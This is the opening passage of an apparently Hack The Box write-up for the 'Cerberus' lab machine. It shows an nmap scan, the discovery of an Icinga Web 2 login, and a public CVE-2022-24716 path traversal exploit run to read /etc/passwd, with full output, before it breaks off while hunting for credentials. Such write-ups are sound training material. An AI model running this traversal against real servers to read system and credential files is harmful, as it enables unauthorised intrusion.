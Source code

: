 <h2>Recon</h2>

<h3>PortScanning</h3>

>command: sudo nmap -A 10.10.11.205  -T4  -v -p-

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-25 12:12 WAT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:12
Completed NSE at 12:12, 0.00s elapsed
Initiating NSE at 12:12
Completed NSE at 12:12, 0.00s elapsed
Initiating NSE at 12:12
Completed NSE at 12:12, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 12:12
Completed Parallel DNS resolution of 1 host. at 12:12, 0.02s elapsed
Initiating SYN Stealth Scan at 12:12
Scanning 10.10.11.205 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.205
SYN Stealth Scan Timing: About 3.26% done; ETC: 12:28 (0:15:19 remaining)
SYN Stealth Scan Timing: About 10.70% done; ETC: 12:22 (0:08:29 remaining)
SYN Stealth Scan Timing: About 23.27% done; ETC: 12:19 (0:05:00 remaining)
SYN Stealth Scan Timing: About 38.98% done; ETC: 12:18 (0:03:09 remaining)
SYN Stealth Scan Timing: About 53.43% done; ETC: 12:17 (0:02:12 remaining)
SYN Stealth Scan Timing: About 66.97% done; ETC: 12:17 (0:01:29 remaining)
SYN Stealth Scan Timing: About 77.94% done; ETC: 12:18 (0:01:12 remaining)
Completed SYN Stealth Scan at 12:17, 297.65s elapsed (65535 total ports)
Initiating Service scan at 12:17
Scanning 1 service on 10.10.11.205
Completed Service scan at 12:18, 6.42s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 10.10.11.205
Retrying OS detection (try #2) against 10.10.11.205
Initiating Traceroute at 12:18
Completed Traceroute at 12:18, 0.23s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 12:18
Completed Parallel DNS resolution of 2 hosts. at 12:18, 0.03s elapsed
NSE: Script scanning 10.10.11.205.
Initiating NSE at 12:18
Completed NSE at 12:18, 5.19s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.77s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Nmap scan report for 10.10.11.205
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X|5.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 - 5.6 (85%), Linux 5.0 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 7.418 days (since Sat Mar 18 02:16:12 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   214.97 ms 10.10.14.1
2   215.10 ms 10.10.11.205

NSE: Script Post-scanning.
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 315.73 seconds
           Raw packets sent: 131344 (5.783MB) | Rcvd: 2048 (459.283KB)
```
From the above scan we have only one port open and that is port 8080 which runs http. So, our enumeration will be focused on this port.


<h2>Enumeration</h2>

Navigating to the webpage you get this

![image](https://user-images.githubusercontent.com/67879936/227715205-7f053439-d3a7-485c-93cd-06c715d7ada9.png)

so we'll be adding ```cinga.cerberus.local``` to our ```/etc/hosts``` file.

![image](https://user-images.githubusercontent.com/67879936/227715292-ca2816d4-9f74-407d-b32f-b0cd41c4bda5.png)

cool, now lets refresh that webpage

![image](https://user-images.githubusercontent.com/67879936/227715321-5aef8a5d-0a36-47e8-a52b-96542646737c.png)

we get this login page. Lets go look for exploits

![image](https://user-images.githubusercontent.com/67879936/227716739-37258491-9206-4d74-926c-e8fb78280884.png)

We found one, ```path transversal vulnerability```. Lets go ahead and exploit this



<h2>Exploitation</h2>

Link:https://github.com/JacobEbben/CVE-2022-24716

Download this to your machine

![image](https://user-images.githubusercontent.com/67879936/227716867-c31f29b1-6b1a-467b-8a21-c089d3d916dd.png)

those parameters are needed to make this exploit work

Lets try reading the ```/etc/passwd``` file

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/cerberus/CVE-2022-24716]
└─$ python exploit.py  http://icinga.cerberus.local:8080/icingaweb2/ /etc/passwd
/home/bl4ck4non/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.8) or chardet (5.1.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin
```
cool, we can view the ```/etc/passwd``` file. Lets go ahead to look for credentials we can use for the login page we found earlier. I found one in the ```etc/






























